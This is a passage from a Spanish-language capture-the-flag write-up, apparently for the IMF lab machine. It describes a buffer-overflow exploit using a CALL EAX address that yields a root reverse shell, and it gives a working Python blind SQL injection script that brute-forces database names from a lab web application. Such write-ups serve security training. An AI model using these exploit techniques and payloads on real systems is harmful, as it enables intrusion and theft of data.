 Este shellcode serán los primeros 95 bytes concatenados de un relleno de 'A' hasta llegar al *offset*. Por lo que únicamente nos falta encontrar en el binario la dirección de la instrucción CALL EAX para introducirla en el EIP.

Por lo que primero sacamos el opcode con la funcionalidad nasm:
![[Pasted image 20240819121421.png]]

El opcode es FFD0 por tanto, lo buscamos usando objdump para saber la dirección de memoria de esta instrucción:
![[Pasted image 20240819121512.png]]

Únicamente ponemos la dirección en little endian desde Python y mediante un socket nos conectamos desde la máquina víctima al puerto 7788 para ejecutar el Buffer Overflow.

> [!NOTE] El Buffer Overflow se ha explotado con el siguiente script de Python: [[#Script Python Buffer Overflow]]

Si ejecutamos el script obtenemos la reverse Shell como root.
![[Pasted image 20240819123540.png]]
![[Pasted image 20240819123635.png]]

Y podemos visualizar la última *flag* en el directorio `/root`:
![[Pasted image 20240819123728.png]]

Que si la decodificamos obtenemos:
![[Pasted image 20240819123818.png]]


## Script Python SQL Injection
```python
from termcolor import colored
from pwn import *
import sys, requests, signal, string, time

def sig_handler(sig, frame):
    print(colored("\n\n[!] Exiting...\n", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, sig_handler)

url = "http://192.168.1.41/imfadministrator/cms.php"
cookies = {"PHPSESSID": "msrbuot4qstd0r9nvh0naotma4"}
filter = "Under Construction"


def get_databases():
    characters = string.ascii_letters + string.digits + "," + "_" + " "
    p1 = log.progress("Extracting names of databases")
    p1.status("")
    p2 = log.progress("Starting brute force")
    time.sleep(1)
    names = ""

    for pos in range(1, 100):
        for char in characters:
            p2.status(char)
            params = {"pagename": f"upload' and (select concat(ascii(substring(group_concat(schema_name),{pos},1))) from information_schema.schemata) = '{ord(char)}"}
            r = requests.get(url, params=params, cookies=cookies)
            if filter in str(r.content):
                names += char
                p1.status(names)
                break
```
